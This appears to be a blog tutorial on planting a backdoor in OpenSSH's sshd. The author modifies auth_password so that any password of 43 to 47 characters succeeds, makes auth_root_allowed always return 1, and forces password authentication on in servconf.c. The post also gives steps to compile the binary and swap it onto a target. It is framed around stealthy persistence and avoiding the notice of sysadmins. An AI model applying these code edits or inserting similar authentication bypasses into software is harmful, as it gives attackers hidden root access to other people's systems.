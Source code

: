 # Backdooring Binaries: sshd
## Introduction
I was recently given the idea of backdooring Linux binaries.  Since their code is all open-source, it is borderline trivial for someone to download it, add a line or two, and recompile.  The hard(er) part is figuring out what to add, but in some cases it really isn't too bad.  In this post, we're looking at backdooring an sshd binary for Linux, making a "secret knock" to let us in whenever we want.  

I titled this post as if it were a series.  It might be, I have no clue.  The future will tell...

## Goals
To determine success and give us a direction, we need goals.  The final binary should:
 - Be swappable with the current SSHD binary in the target system
 - Allow the attacker (us) to login through some means that does not require authentication

Let's get started.

## Development Setup
First things first, we need a target system.  So, I setup a basic Manjaro VM and installed sshd on it.  Test it out, and it works just fine.  
Next, we need the code to work with.  The source for openssh-portable is freely available on [GitHub](https://github.com/openssh/openssh-portable).  This will be the source code we are working with.  

## Finding a Code to Call Home
Now that we have the source code we need, we have to figure out where to add our bug.  Looking through the names of files in the directory, the following filenames stand out:
 - auth.c
 - auth-passwd.c
 - auth2.c
 - auth2-passwd.c

### auth.c
This file contains the following functions:
 - allowed_user(struct ssh *ssh, struct passwd * pw)
	While the password is passed into this function, it appears to have more to do with the user's shell and if they are valid to login or not.  Probably not what we're looking for.  However, it could be an interesting way to bypass the /etc/shells requirement in some niche scenario.
 - format_method_key(Authctxt *authctxt)
	This deals with keys instead of passwords.  Not it.  
 - auth_log(struct ssh *ssh, int authenticated, int partial, const char *method, const char *submethod)
	Standard authentication logging function.  It won't help us get a login, but we could totally forge some logs to make it look like we never logged in if we want. 
 - auth_maxtries_exceeded(struct ssh *ssh)
	This probably speaks for itself.  Not what we need.
 - auth_root_allowed(struct ssh *ssh, const char *method)
	Again, this isn't what we need, but a cursory glance indicates that it would likely be trivially easy to edit this and allow root login all the time.  Let's come back to this later.  

So, we keep scrolling through this list, and it looks like there may be some potential candidates for allowing backdoored login, but there's a lot more we could look at.  

### auth-passwd.c
Right off the bat, we see the function `auth_password(struct ssh *ssh, const char *password)`.  Looking at the code shows it is indeed a large component of how passwords are used to authenticate users.  It looks like this function can call other authentication methods if they are available on the system, and then returns `ok` if the password is good, or `0` if it isn't.  There is also a small check at the beginning for max password length.  This is exactly what we're looking for.  Since a successful authentication returns "ok", how about we add in one more if statement:
```
if (strlen(password) > 42 && strlen(password) < 48)
		return ok;
```
This will authenticate any password between the lengths of 43 and 47.  This is high enough up there that a system administrator or user of the target system is unlikely to notice it as strange behavior in their day-to-day life, and the slight range gives us some space for typos without generating auth failure logs.  

This should already be the effective base for the sshd backdoor.  Let's test it out and see how it works.

## Testing
Let's compile and install this on the target.
To ensure proper compatability, we should compile on the target system.  In a standard engagement, this obviously would be a really bad idea, but for testing purposes, it will make things easier.  The openssh-portable GitHub readme specifies the following instructions for installing, which we will follow:
```
autoreconf
./configure
make && make tests
```
(You may need to install libcrypto from openssl or the like if this does not compile.)
Now, we have a beautiful sshd binary!  Let's overwrite the current sshd binary.  (I suggest making a backup of the clean one just in case.)
`which sshd` will tell us which sshd binary we need to replace.  
`/usr/bin/sshd`
So, we simply `cp sshd /usr/bin/sshd` (with root perms), `systemctl daemon-reload`, and `systemctl start sshd`!
`systemctl status sshd` says it failed.  Hmmmm.  How about we try running it from the command line instead of systemctl.  
Following the errors as it provides them to us, I had to do the following:
 - Run sshd with an absolute path /usr/bin/sshd
 - Add symlinks to the hostkeys and the sshd_config file in /usr/local/etc
 - Edit sshd_config to remove the AllowPam option

One more try, and it looks like it's working.  Now we should try logging in.  
Since linux doesn't display passwords as they're being typed in, a screenshot doesn't really help.  However, when I put ssh with the creds root:11111111112222222222233333333333444444444455555, it logs me in!

## Make it a Little Nastier
There are a few other pieces of code we can edit to make the backdoor just a bit more effective for most use cases.  
### Allow Root Logon
Remember that one function auth_root_allowed() that we found in auth.c?  Let's take another look at it. 
```
int
auth_root_allowed(struct ssh *ssh, const char *method)
{
	switch (options.permit_root_login) {
	case PERMIT_YES:
		return 1;
	case PERMIT_NO_PASSWD:
		if (strcmp(method, "publickey") == 0 ||
		    strcmp(method, "hostbased") == 0 ||
		    strcmp(method, "gssapi-with-mic") == 0)
			return 1;
		break;
	case PERMIT_FORCED_ONLY:
		if (auth_opts->force_command != NULL) {
			logit("Root login accepted for forced command.");
			return 1;
		}
		break;
	}
	logit("ROOT LOGIN REFUSED FROM %.200s port %d",
	    ssh_remote_ipaddr(ssh), ssh_remote_port(ssh));
	return 0;
}

```
This is a simple "if it's allowed, return 1, if not return 0" function.  Since we want our backdoor to always have root access, let's do something quick and dirty:
```
int
auth_root_allowed(struct ssh *ssh, const char *method)
{
	return 1;
	switch (options.permit_root_login) {
	case PERMIT_YES:
		return 1;
	case PERMIT_NO_PASSWD:
		if (strcmp(method, "publickey") == 0 ||

   ...

}
```
A single `return 1` permits root logon with passwords globally, allowing more effective use of the backdoor. 

### Allow Password Logon
While looking at a few other files in the source code, I found the following line in servconf.c:
```
{
    ...	

	if (options->password_authentication == -1)
		options->password_authentication = 1;
	if (options->kbd_interactive_authentication == -1)
		options->kbd_interactive_authentication = 1;
	if (options->permit_empty_passwd == -1)
		options->permit_empty_passwd = 0;
	if (options->permit_user_env == -1) {
		options->permit_user_env = 0;
		options->permit_user_env_allowlist = NULL;
	}
```
It looks like this is how the server loads in configuration changes from the sshd_conf file.  I don't like not having password login, so lets make sure we always get it!
```
{
   ...

	if (options->password_authentication == -1)
		options->password_authentication = 1;
	if (options->kbd_interactive_authentication == -1)
		options->kbd_interactive_authentication = 1;
	if (options->permit_empty_passwd == -1)
		options->permit_empty_passwd = 0;
	if (options->permit_user_env == -1) {
		options->permit_user_env = 0;
		options->permit_user_env_allowlist = NULL;
	options->password_authentication = 1;
	}
```
And now we can always use our password backdoor, even when password login is not configured!  The downside to this edit is that it is more likely a user or sysadmin would notice the erroneous behavior through normal operation, potentially blowing our cover and removing the persistence.  

## Conclusion
Binaries can be backdoored!  Trusting that system files is are clean is bad practice, but that can be leveraged to create very very quiet persistence on a target.  
Thanks for reading!

